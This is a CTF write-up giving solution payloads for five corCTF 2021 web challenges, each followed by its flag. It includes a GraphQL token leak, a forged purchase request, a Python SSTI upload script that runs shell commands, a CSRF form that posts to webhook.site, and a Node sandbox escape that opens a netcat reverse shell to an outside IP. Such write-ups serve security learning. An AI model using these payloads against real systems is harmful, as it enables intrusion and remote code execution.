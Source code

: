 ## ====================== corCTF 2021 ======================  

### devme  
  
- Get admin token

```json
{
  "query":"{users{username,token}}"
}  
```
  
- Get flag with admin token  
  
```json  
{
  "query":"{flag (token:\"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}   
```
  
`Flag: corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}`  
  
  
### buyme  
  
My payload:  
  
```text  
POST /api/buy HTTP/1.1
Host: buyme.be.ax
Cookie: user=s%3Aahihihihi.7VJIG%2FI4pce4U516xfQMzQBXOVLTpp%2BzCZqbBPsiW7U
Content-Type: application/json
Content-Length: 79

{
  "flag":"corCTF",
  "user":{
    "flags":[],
    "user":"ahihihihi",
    "money":1e+300
  }
}
```    
  
`Flag: corctf{h0w_did_u_steal_my_flags_you_flag_h0arder??!!}`  
  
### drinkme  
  
Overwrite `decaf.html` to perform SSTI attack, we can add some random characters into file content to make `md5 hash` starts with `decaf`.
My script:  
  
```python3  
import hashlib
import string
import random
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder


url = "https://33509.drinkme.be.ax"
r = requests.Session()

def random_char(y):
       return ''.join(random.choice(string.ascii_letters) for x in range(y))

def get_flag():
	resp = r.get(url + '/decaf')
	print(resp.text)

def gen_payload(template):
	while True:
		data = template + random_char(5)
		hashed = hashlib.md5(data.encode()).hexdigest()[:5]
		if hashed == "decaf":
			return data

def send_payload(payload):
	try:
		multipart_data = MultipartEncoder(
		    fields={
		            'file': ('.html', payload, 'text/plain'),
		            'type': '../templates/', 
		            'submit': 'Draw!',
		           }
		    )
		resp = r.post(url + '/upload', data=multipart_data, headers={'Content-Type':multipart_data.content_type})
	except:
		pass

if __name__ == "__main__":
	template = "{{config.__class__.__init__.__globals__['os'].popen('cat /var/flag').read()}}"
	payload = gen_payload(template)
	print(f"[+] Found payload: {payload}")
	print(f"[+] Sending payload")
	send_payload(payload)
	print(f"[+] Try to get flag")
	get_flag()
```
  
`Flag: corctf{c4ff31n3_is_f0r_th3_we4k}`  
  
### phpme  
  
Admin's cookie set flag `Samesite=Lax`, it will be block the request from `fetch, XMLHTTPRequest` but not `form`, and use `enctype=text/plain` to avoid `urlencode form data`.  
  
My solution  
  
```html
<form id="invisible_form"  enctype="text/plain" action="https://phpme.be.ax/" method="POST" target="_blank">
  <input id="ahihi" name='{"yep":"yep yep yep", "url":"https://webhook.site/279a967d-7c3b-43e9-ab67-abf6fd32ddad","a":"' value='a"}' type="hidden">
</form>
<script src="https://cdn.jsdelivr.net/npm/axios/dist/axios.min.js"></script>
<script type="text/javascript">
    document.getElementById("invisible_form").submit()
</script>
```  
  
`Flag: corctf{ok_h0pe_y0u_enj0yed_the_1_php_ch4ll_1n_th1s_CTF!!!}`
    
### readme  
  
My solution  
  
```html  
<html>
	<a href="http://www.google.com" name="A" class="nextasdhasd">haahahah</a>
	<a href="http://www.google.com" name="B" class="nexthehe">haadsasdahahah</a>
	<button href="http://www.google.com" name="A" class="next" onclick="function fn(){};var constructorProperty = Object.getOwnPropertyDescriptors(fn.__proto__).constructor;var properties = Object.values(constructorProperty);properties.pop();properties.pop();properties.pop();var Func = properties.map(function (x) {return x.bind(x, 'return this.process.mainModule.constructor._load(`child_process`).execSync(`nc 45.77.45.157 1234 -e /bin/sh`)')}).pop();(Func())()">hehe</button>
</html>
```
 Setup listen on port 1234 and RCE  
   
`Flag: corctf{but_wh3re_w1ll_i_r3ad_my_n0vels_now??????}`
  
